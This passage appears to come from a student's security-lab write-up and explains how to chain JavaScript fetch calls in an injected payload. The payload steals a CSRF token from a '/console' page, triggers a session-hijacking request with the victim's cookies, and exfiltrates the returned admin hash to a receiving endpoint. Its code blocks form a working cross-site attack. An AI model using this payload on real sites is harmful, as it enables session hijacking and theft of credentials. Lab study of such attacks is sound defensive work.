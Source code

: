 **Problem:** The second `fetch` executes before `csrfToken` is set, resulting in `undefined` being sent as the token.

### Breakthrough #2: Proper Promise Chaining

The solution was to nest the second `fetch` inside the `.then()` of the first:

```javascript
fetch("/console", { credentials: "include" })
  .then((res) => res.text())
  .then((html) => {
    const csrfToken = html.match(/.../)[1];

    // This fetch is INSIDE the .then(), so it only runs after token is extracted
    return fetch("/session-hijacking/gguruvelli3", {
      method: "POST",
      headers: { "X-CSRFToken": csrfToken },
      credentials: "include",
    });
  })
  .then((res) => res.json())
  .then((data) => {
    // Exfiltrate the hash
    fetch("/receive/gguruvelli3/2065", {
      method: "POST",
      body: "admin_hash=" + data.hash,
    });
  });
```

**Key points:**

- Each `.then()` returns the next promise
- Promises execute sequentially
- Each step waits for the previous one to complete

## Stuck Point #4: Handling Response Errors

Sometimes the response wasn't JSON, causing `.json()` to throw an error and break the chain:

```javascript
.then(res => res.json())  // Throws error if response isn't JSON
.then(data => {
    // This never executes if error occurs
})
```

### Solution: Check Response Status

```javascript
.then(function(res) {
    if (res.ok) return res.json();
    else return {};  // Return empty object on error
})
.then(function(data) {
    if (data.hash) {  // Check if hash exists before using it
        // Exfiltrate hash
    }
})
```

